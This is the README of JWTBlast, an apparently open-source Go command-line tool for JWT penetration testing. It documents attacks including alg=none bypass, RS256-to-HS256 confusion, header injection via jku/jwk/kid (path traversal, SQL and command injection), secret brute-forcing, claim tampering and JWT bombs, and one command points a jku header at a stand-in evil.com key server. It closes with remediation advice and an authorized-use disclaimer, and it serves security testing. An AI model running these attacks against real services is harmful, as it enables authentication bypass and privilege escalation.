






# JWTBlast — JWT 安全测试工具

<p align="center">
  
  
  
  
</p>

> 一款面向合法渗透测试的 **JWT 安全测试工具**，覆盖 10 个攻击模块、40+ 漏洞类型，支持离线静态审计与在线攻击验证，帮助开发者在授权环境中发现并修复 JWT 实现中的潜在漏洞。

---

## 核心功能

| 模块 | 命令 | 描述 | 需要端点 |
|------|------|------|:--------:|
| **静态审计** | `audit` | 离线分析令牌结构、声明、密钥强度，无需目标服务器 | 否 |
| **密钥爆破** | `brute` | 并发字典爆破 HS256/384/512 对称密钥 | 否 |
| **none 绕过** | `none` | 生成 `alg=none` 无签名令牌变体，检测服务端是否接受 | 可选 |
| **算法混淆** | `confusion` | RS256→HS256 算法混淆攻击，将 RSA 公钥当作 HMAC 密钥 | 可选 |
| **头部注入** | `inject` | 8 种头部注入攻击：JWK / JKU / x5c / x5u / KID 路径遍历 / KID SQLi / KID 命令注入 / crit 绕过 | 可选 |
| **声明篡改** | `tamper` | 19 种声明篡改场景（权限提升、用户伪造等），用已知密钥重签名 | 可选 |
| **时序攻击** | `timing` | 检测签名验证中的时序侧信道漏洞 | 是 |
| **嵌套 JWT** | `nested` | 生成嵌套 JWT 与 JWT 炸弹，测试 DoS 与解析深度限制 | 可选 |
| **JWKS 发现** | `jwks` | 枚举 16 条已知路径发现 JWKS 端点，分析密钥配置 | 是 |
| **综合扫描** | `scan` | 编排上述全部模块，生成完整安全报告 | 可选 |

---

## 快速开始

### 环境要求

- Go 1.26+
- 依赖：`github.com/golang-jwt/jwt/v5 v5.3.1`

### 编译安装

```bash
# 克隆仓库
git clone https://github.com/your-org/JWTBlast.git
cd JWTBlast

# 安装依赖并编译
go mod tidy
go build -o jwtblast .

# 验证
./jwtblast version
```

### 基本用法

```bash
# 令牌作为位置参数直接传入（不需要 --token 标志）
jwtblast audit eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9...

# 简写模式：省略 audit，直接传 JWT
jwtblast eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9...
```

---

## 命令详解

### 1. audit — 静态令牌安全审计

离线分析，无需目标端点。检测敏感数据泄露、缺失声明、弱算法、超大令牌等。

```bash
jwtblast audit eyJhbGciOi... --report audit_report.json
# 简写
jwtblast eyJhbGciOi... --report audit_report.json
```

审计项目包括：信用卡号、SSN、邮箱、API Key、AWS 密钥、私钥、密码字段等敏感数据模式匹配；`iss`/`exp`/`sub`/`iat` 必需声明检查；`none`/`HS1`/`RS1`/`ES1` 弱算法识别。

### 2. brute — HMAC 密钥暴力破解

```bash
jwtblast brute eyJhbGciOi... --dict wordlist.txt --workers 16
```

支持 HS256/HS384/HS512，多 goroutine 并发验证，原子计数器保证并发安全，找到密钥后立即取消所有 worker。

### 3. none — alg=none 签名绕过

```bash
# 离线生成变体
jwtblast none eyJhbGciOi...

# 在线验证 + 篡改声明
jwtblast none eyJhbGciOi... --modified-claims '{"isAdmin":true}' --endpoint https://target.com/api
```

生成多种 `none` 变体（`none`/`None`/`NONE`/`nOnE`）及 null 字节截断变体，逐一向端点验证接受性。

### 4. confusion — RS256→HS256 算法混淆

```bash
jwtblast confusion eyJhbGciOi... --pubkey public.pem --endpoint https://target.com/api
```

将 RSA 公钥 PEM 内容作为 HMAC 密钥构造 HS256 令牌，同时测试 SPKI 与 PKCS1 两种 PEM 格式，验证服务端是否错误地用公钥做对称验证。

### 5. inject — 头部注入攻击

```bash
# 全部 8 种注入
jwtblast inject eyJhbGciOi... --type all --endpoint https://target.com/api

# 单种注入
jwtblast inject eyJhbGciOi... --type jwk --endpoint https://target.com/api
jwtblast inject eyJhbGciOi... --type jku --value https://evil.com/keys.json --endpoint https://target.com/api
jwtblast inject eyJhbGciOi... --type kid-traversal --endpoint https://target.com/api
jwtblast inject eyJhbGciOi... --type kid-sql --endpoint https://target.com/api
```

| `--type` 值 | 攻击方式 |
|-------------|----------|
| `jwk` | 注入自生成 RSA 公钥到 `jwk` 头部 |
| `jku` | 注入恶意 `jku` URL 指向攻击者控制的 JWKS |
| `x5c` | 注入自签证书到 `x5c` 头部 |
| `x5u` | 注入恶意 `x5u` URL |
| `kid` | KID 通用注入 |
| `kid-traversal` | KID 路径遍历（如 `../../../dev/null`） |
| `kid-sql` | KID SQL 注入（如 `' UNION SELECT...`） |
| `kid-cmd` | KID 命令注入 |
| `crit` | `crit` 头部绕过 |
| `all` | 依次执行全部类型 |

### 6. tamper — 声明篡改与重签名

```bash
# 用已知 HMAC 密钥重签名
jwtblast tamper eyJhbGciOi... --secret mysecret --endpoint https://target.com/api

# 用 RSA 私钥重签名
jwtblast tamper eyJhbGciOi... --privkey private.pem --endpoint https://target.com/api
```

自动生成 19 种篡改场景：`sub` 替换、`role`/`isAdmin`/`admin` 提权、`exp` 延长、`aud`/`iss` 伪造等，逐一验证服务端是否接受。

### 7. timing — 时序侧信道检测

```bash
jwtblast timing eyJhbGciOi... --endpoint https://target.com/api --samples 100 --threshold 0.05
```

发送有效签名与随机篡改签名令牌各 N 次，统计响应时间分布，检测验证逻辑是否存在早返回时序差异。

### 8. nested — 嵌套 JWT 与 JWT 炸弹

```bash
# 生成嵌套 JWT 并在线验证
jwtblast nested eyJhbGciOi... --depth 10 --endpoint https://target.com/api

# 仅生成 JWT 炸弹（不发送）
jwtblast nested eyJhbGciOi... --depth 20 --bomb
```

递归嵌套 JWT 测试解析深度限制，`--bomb` 模式生成深层嵌套令牌用于 DoS 测试。

### 9. jwks — JWKS 端点发现

```bash
jwtblast jwks --endpoint https://target.com
```

枚举 16 条已知路径（`/.well-known/jwks.json`、`/oauth/jwks`、`/auth/keys` 等）发现 JWKS 端点，分析密钥数量、算法分布、密钥用途。

### 10. scan — 综合安全扫描

```bash
jwtblast scan eyJhbGciOi... \
  --dict wordlist.txt \
  --pubkey public.pem \
  --endpoint https://target.com/api \
  --report fullscan.json
```

编排 audit + brute + none + confusion + inject + tamper + timing + nested 全部模块，聚合结果生成统一报告。

---

## 参数参考

### 通用参数

所有在线命令共享以下参数：

| 参数 | 默认值 | 说明 |
|------|--------|------|
| `--endpoint` | （空） | 目标验证接口 URL，留空则仅离线生成 payload |
| `--report` | `report.json` | 报告输出路径（JSON） |
| `--transport` | `token` | 令牌传输方式，见下表 |
| `--timeout` | `30s` | HTTP 请求超时 |
| `--proxy` | （空） | HTTP 代理 URL，如 `http://127.0.0.1:8080` |
| `--cookie-name` | `token` | Cookie 名称（`-transport cookie` 时生效） |

### 传输方式

| `--transport` | 行为 |
|---------------|------|
| `token` | 将原始 JWT 字符串作为 POST body 发送（默认） |
| `bearer` | 作为 `Authorization: Bearer <JWT>` 头发送（GET） |
| `cookie` | 作为 `Cookie: <name>=<JWT>` 头发送（GET） |
| `url` | 作为 `?<param>=<JWT>` 查询参数发送（GET） |

### 命令专属参数

| 命令 | 参数 | 说明 |
|------|------|------|
| `brute` | `--dict` | 字典文件路径（必需） |
| `brute` | `--workers` | 并发 goroutine 数（默认 CPU 核数） |
| `none` | `--modified-claims` | 注入的 JSON 声明 |
| `confusion` | `--pubkey` | RSA 公钥文件 PEM（必需） |
| `confusion` | `--modified-claims` | 注入的 JSON 声明 |
| `inject` | `--type` | 注入类型，默认 `all` |
| `inject` | `--value` | 注入值（URL / 路径） |
| `tamper` | `--secret` | 已知 HMAC 密钥 |
| `tamper` | `--privkey` | RSA 私钥文件 PEM |
| `timing` | `--samples` | 每组采样数（默认 50） |
| `timing` | `--threshold` | 时序差异阈值（默认 0.05） |
| `nested` | `--depth` | 嵌套深度（默认 10） |
| `nested` | `--bomb` | 仅生成 JWT 炸弹 |
| `scan` | `--dict` `--pubkey` `--privkey` `--secret` `--depth` | 透传给各子模块 |
| `scan` | `--url-param` | URL 参数名（`-transport url` 时，默认 `token`） |

---

## 支持的漏洞类型（40+）

| 类别 | 漏洞 |
|------|------|
| **算法层** | `alg=none` 绕过、RS256→HS256 混淆、弱算法（HS1/RS1/ES1） |
| **头部注入** | JWK 注入、JKU 注入、x5c 注入、x5u 注入、KID 路径遍历、KID SQL 注入、KID 命令注入、crit 头部绕过 |
| **令牌层** | HMAC 密钥爆破、声明篡改（19 种场景）、时序侧信道 |
| **结构层** | 嵌套 JWT、JWT 炸弹、自引用 JWT |
| **发现层** | JWKS 端点枚举、OIDC 配置发现、密钥配置分析 |
| **审计层** | 敏感数据泄露、必需声明缺失、超大令牌、弱签名 |

---

## 项目结构

```
JWTBlast/
├── jwt.go              # CLI 入口、命令分发、参数解析
├── common.go           # Config 配置、HTTP 客户端、令牌编解码、报告输出
├── audit.go            # 静态令牌安全审计
├── brute.go            # HMAC 密钥暴力破解（并发安全）
├── none.go             # alg=none 签名绕过测试
├── confusion.go        # RS256→HS256 算法混淆攻击
├── injection.go        # 8 种头部注入攻击
├── tamper.go           # 声明篡改与重签名
├── timing.go           # 时序侧信道攻击检测
├── nested.go           # 嵌套 JWT 与 JWT 炸弹
├── jwks.go             # JWKS 端点发现与分析
├── scan.go             # 综合安全扫描编排
├── crypto_utils.go     # RSA 密钥生成与证书工具
├── rsa_sign.go         # RS256 签名实现
├── go.mod / go.sum     # Go 模块定义
└── README.md
```

---

## 真实 CTF 演示

以下截图均为使用真实 CTF 题目中的 JWT Token 运行 JWTBlast v2.0 的实际输出。

### 涉及的 CTF 题目

| # | CTF 平台 | 题目 | 漏洞类型 | 算法 | 密钥 |
|---|----------|------|----------|------|------|
| 1 | RACTF 2020 | Getting Admin | alg=none 绕过 | HS256 | - |
| 2 | Root-Me | JWT Weak Secret | 弱密钥爆破 | HS512 | `lol` |
| 3 | DCTF 2021 | Secure API | 弱密钥爆破 | HS512 | `147852369` |
| 4 | Pearl CTF 2024 | Learn HTTP | 弱密钥爆破 | HS256 | `banana` |
| 5 | CSAW CTF 2018 | SSO | 声明篡改 | HS256 | `ufoundme!` |
| 6 | PortSwigger | Algorithm Confusion | RS256→HS256 混淆 | RS256 | RSA 公钥 |
| 7 | PortSwigger | JWK Header Injection | 头部注入 | RS256 | - |

### 1. 版本与帮助



### 2. 静态审计 — RACTF 2020 Token



### 3. 密钥爆破 — 3 个 CTF 弱密钥



### 4. alg=none 绕过 + RS256→HS256 算法混淆



### 5. 头部注入 + 声明篡改



### 6. 嵌套 JWT + 综合扫描



---

## 已知限制

- **PowerShell JSON 参数问题**：在 PowerShell 中使用 `--modified-claims '{"isAdmin":true}'` 时，双引号会被 shell 剥离。建议使用 Bash、CMD 或将 JSON 写入文件后通过脚本读取。
- **TLS 跳过验证**：在线测试默认跳过 TLS 证书校验（`InsecureSkipVerify: true`），便于在授权测试中对接自签名服务。请勿用于生产环境常规请求。
- **在线确认机制**：涉及目标服务器的操作会提示用户手动确认后才执行。

---

## 安全建议

基于工具实测中常见漏洞，给出以下修复建议：

| 漏洞类型 | 修复建议 |
|----------|----------|
| 弱 HMAC 密钥 | 使用 `crypto/rand` 生成 ≥256-bit 随机密钥，禁止硬编码 |
| `alg=none` | 验证时强制使用 `WithValidMethods` 白名单，拒绝 `none` |
| 算法混淆 | 对称与非对称密钥分离存储，禁止用公钥做 HMAC 验证 |
| 头部注入 | 对 `jku`/`jwk`/`kid`/`x5u` 做白名单校验与输入净化 |
| 声明篡改 | 服务端校验 `sub`/`role`/`exp`/`aud`/`iss`，不信任客户端声明 |
| 时序侧信道 | 签名比较使用 `hmac.Equal` 常数时间比较 |
| 嵌套 JWT | 限制 JWT 嵌套深度与令牌最大长度 |
| 敏感数据 | JWT payload 仅放标识符，不放敏感业务数据 |
| 令牌有效期 | 设置短有效期（<15 min）并启用刷新机制 |

---

## 道德合规与免责声明

- **仅限授权测试**：仅在您拥有明确测试权限的系统上使用。
- **在线确认**：任何涉及目标服务器的操作均需用户手动确认。
- **日志记录**：所有测试行为默认生成 JSON 报告落盘，便于审计。
- **禁止滥用**：禁止用于未授权访问、数据窃取或其他非法行为。

### 风险与责任

- 使用本工具所产生的任何直接、间接风险与损失（包括但不限于服务异常、数据泄露、法律追责）由使用者自行承担。
- 作者及项目贡献者不对任何滥用行为承担法律责任。
- 若您不同意本条款，请立即停止使用并删除本工具。

---

## 技术栈

- **语言**：Go 1.26+
- **JWT 库**：`github.com/golang-jwt/jwt/v5`
- **加密**：标准库 `crypto/hmac`、`crypto/sha256`、`crypto/sha512`、`crypto/rsa`、`crypto/x509`
- **并发**：`sync/atomic` 原子计数器 + `context.Context` 取消传播
- **HTTP**：标准库 `net/http`，支持代理、TLS 跳过、超时控制

---

## 贡献

欢迎提交 Issue 和 Pull Request。请确保所有测试均在授权环境中进行，并遵守当地法律法规。

```bash
# 开发构建
go build -o jwtblast .
go vet ./...
```

---

## 开源许可

MIT License — 详见 [LICENSE](LICENSE)
